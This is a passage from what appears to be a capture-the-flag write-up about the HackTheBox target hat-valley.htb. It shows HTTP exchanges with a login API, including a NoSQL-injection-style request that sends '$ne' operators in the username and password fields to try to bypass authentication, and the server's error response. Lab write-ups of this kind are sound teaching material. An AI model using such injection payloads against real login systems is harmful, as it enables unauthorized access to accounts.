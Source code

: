 ```http
HTTP/1.1 401 Unauthorized
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 13 Jan 2023 14:47:05 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 30
Connection: close
x-powered-by: Express
access-control-allow-origin: *
etag: W/"1e-rLNS954LHEEL+kNUFi+s5vEu3/o"

Incorrect username or password
```

It didn't do anything. I tried in the password.

```http
POST /api/login HTTP/1.1
Host: hat-valley.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 49
Origin: http://hat-valley.htb
Connection: close
Referer: http://hat-valley.htb/hr
Cookie: token=guest

{"username":{
"$ne":""},"password":{
"$ne":""}}
```

It gave me an error. But it did not appear to be used in a database query. It was probably trying to hash the password to validate it. But that hinted that the types of the data were not checked.

```http
HTTP/1.1 500 Internal Server Error
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 13 Jan 2023 14:47:21 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1247
Connection: close
x-powered-by: Express
access-control-allow-origin: *
content-security-policy: default-src 'none'
x-content-type-options: nosniff

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
```